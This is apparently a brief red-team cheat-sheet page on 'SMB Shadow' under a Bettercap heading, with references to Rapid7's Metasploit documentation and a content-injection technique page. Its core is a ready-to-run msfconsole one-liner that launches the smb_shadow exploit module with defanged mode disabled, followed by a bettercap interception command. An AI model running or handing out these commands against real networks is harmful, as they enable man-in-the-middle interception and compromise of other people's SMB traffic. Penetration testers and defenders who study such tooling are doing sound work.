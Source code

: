 # Bettercap

## SMB Shadow

```
$ sudo msfconsole -qx "use exploit/windows/smb/smb_shadow; set interface <interface>; set defangedmode false; run"
```

```
$ sudo bettercap -I <interface>
```

---
## References

### Rapid7

- [Rapid7: Metasploit Framework - SMB Shadow Exploit Module](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/exploit/windows/smb/smb_shadow.md)

### DMCXBlue

- [DMCXBlue: Content Injection T1659](https://dmcxblue.gitbook.io/red-team-notes-2-0/red-team-techniques/initial-access/t1659-content-injection)
